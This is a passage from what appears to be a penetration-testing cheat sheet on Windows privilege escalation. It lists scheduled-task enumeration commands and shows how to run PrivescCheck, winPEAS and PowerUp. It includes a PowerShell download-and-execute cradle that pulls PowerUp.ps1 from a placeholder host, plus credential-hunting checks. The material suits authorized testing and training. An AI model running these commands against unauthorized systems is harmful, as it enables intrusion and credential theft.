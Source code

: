   

#### 8. Scheduled Tasks

```
schtasks
schtasks /query /fo LIST /v
schtasks /query /fo LIST /v /tn taskname					# /tn - specify the task to query
schtasks /query /fo LIST /v | findstr /v "Microsoft"		# /v - exclude the certain task

Get-ScheduledTask | Where-Object { $_.NextRunTime -ne "N/A" } 
Get-ScheduledTask | ft TaskName,TaskPath,State
Get-ScheduledTask -TaskName "Your Task Name"
Get-ScheduledTask | where {$_.TaskPath -notlike "\Microsoft*"} | ft TaskName,TaskPath,State
```



#### 9. Automtaed

- PrivescCheck.ps1

  ```
  powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck"
  powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended"
  powershell -ep bypass -c ". .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended -Report PrivescCheck_%COMPUTERNAME%"
  ```

  - check Autologon

- winPEAS.exe

  ```
  winPEAS.exe windowscreds
  winPEAS.exe filesinfo
  ```

  - check Autologon
  
- PowerUp.ps1

  ```
  iex(new-object net.webclient).downloadstring('http://ip/Active_Directory/PowerUp.ps1');Invoke-AllChecks
  
  Or
  
  1. download powerup.ps1
  2. Import-Module .\PowerUp.ps1
  3. Invoke-AllChecks
  ```

  Or Separated

  - Misc

    ```
    # Check for credentials in unattend.xml files
    Get-UnattendedInstallFile
    